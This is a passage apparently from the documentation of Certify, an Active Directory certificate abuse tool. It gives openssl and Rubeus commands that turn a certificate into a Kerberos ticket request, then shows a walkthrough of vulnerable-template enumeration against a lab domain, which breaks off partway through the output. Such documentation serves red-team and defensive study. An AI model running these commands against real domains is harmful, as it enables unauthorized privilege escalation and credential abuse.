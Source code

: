 Certificates can be transformed to .pfx's usable with Certify with:

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certificates can be used with Rubeus to request a TGT with:

    Rubeus.exe asktgt /user:X /certificate:C:\Temp\cert.pfx /password:<CERT_PASSWORD>


## Example Walkthrough

First, use Certify.exe to see if there are any vulnerable templates:

    C:\Temp>Certify.exe find /vulnerable
       _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.0.0

    [*] Action: Find certificate templates
    [*] Using the search base 'CN=Configuration,DC=theshire,DC=local'
    [*] Restricting to CA name : dc.theshire.local\theshire-DC-CA

    [*] Listing info about the Enterprise CA 'theshire-DC-CA'

        Enterprise CA Name            : theshire-DC-CA
        DNS Hostname                  : dc.theshire.local
        FullName                      : dc.theshire.local\theshire-DC-CA
        Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
        Cert SubjectName              : CN=theshire-DC-CA, DC=theshire, DC=local
        Cert Thumbprint               : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
        Cert Serial                   : 14BFC25F2B6EEDA94404D5A5B0F33E21
        Cert Start Date               : 1/4/2021 10:48:02 AM
        Cert End Date                 : 1/4/2026 10:58:02 AM
        Cert Chain                    : CN=theshire-DC-CA,DC=theshire,DC=local
        UserSpecifiedSAN              : Disabled
        CA Permissions                :
          Owner: BUILTIN\Administrators        S-1-5-32-544

          Access Rights                                     Principal

          Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
          Allow  ManageCA, ManageCertificates               THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
          Allow  ManageCA, Read, Enroll                     THESHIRE\Domain Users         S-1-5-21-937929760-3187473010-80948926-513
            [!] Low-privileged principal has ManageCA rights!
          Allow  Enroll                                     THESHIRE\Domain Computers     S-1-5-21-937929760-3187473010-80948926-515
          Allow  ManageCA, ManageCertificates               THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
          Allow  ManageCertificates, Enroll                 THESHIRE\certmanager          S-1-5-21-937929760-3187473010-80948926-1605
          Allow  ManageCA, Enroll                           THESHIRE\certadmin            S-1-5-21-937929760-3187473010-80948926-1606
        Enrollment Agent Restrictions :
          Everyone                      S-1-1-0
            Template : <All>
            Targets  :